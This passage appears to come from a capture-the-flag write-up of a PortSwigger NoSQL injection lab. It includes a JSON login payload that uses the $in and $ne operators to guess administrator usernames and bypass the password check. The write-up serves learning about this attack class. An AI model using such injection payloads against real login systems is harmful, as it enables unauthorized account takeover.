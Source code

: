 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009142946.png)

Wait what? "Invalid username or password"?

**Maybe we can guess the administrator account's username with a guessable name via `$in` operator?**
```json
{
    "username":{
        "$in":[
            "admin",
            "administrator",
            "superadmin"
        ]
    },
    "password":{
        "$ne": "foobar"
    }
}
```

